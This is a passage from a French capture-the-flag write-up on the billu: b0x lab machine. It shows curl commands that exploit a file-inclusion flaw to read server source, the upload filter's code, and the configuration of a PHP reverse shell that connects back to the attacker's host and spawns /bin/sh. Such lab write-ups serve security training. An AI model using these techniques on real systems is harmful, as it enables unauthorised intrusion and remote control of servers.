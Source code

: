 ```console
root@blinils:~# curl http://192.168.56.107/test.php --data "file=/var/www/add.php"
--snip--
    Select image to upload:
    <input type="file" name=image>
	<input type=text name=name value="name">
	<input type=text name=address value="address">
	<input type=text name=id value=1337 >
    <input type="submit" value="upload" name="upload">
--snip--
```

Attention cependant, il y a des restrictions à l'upload !

```console
root@blinils:~# curl http://192.168.56.107/test.php --data "file=/var/www/panel.php"
--snip--
	$r=pathinfo($_FILES['image']['name'],PATHINFO_EXTENSION);
	$image=array('jpeg','jpg','gif','png');
	if(in_array($r,$image))
	{
		$finfo = @new finfo(FILEINFO_MIME); 
	$filetype = @$finfo->file($_FILES['image']['tmp_name']);
		if(preg_match('/image\/jpeg/',$filetype )  || preg_match('/image\/png/',$filetype ) || preg_match('/image\/gif/',$filetype ))
				{
--snip--
			else
			{
				echo "<br>i told you dear, only png,jpg and gif file are allowed";
			}
	}
	else
	{
		echo "<br>only png,jpg and gif file are allowed";
		
	}
```

Le principe est le suivant : un reverse shell en PHP va être créé et déposé sur le serveur. Ce bout de code va créer une connexion sur le port 12345 entre le serveur billu: b0x (192.168.56.107) et notre propre machine (192.168.56.102). Le reverse shell mis à disposition par [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell) va être mis en oeuvre.

```php
set_time_limit (0);
$VERSION = "1.0";
$ip = '192.168.56.102';  // CHANGE THIS
$port = 12345;           // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
```
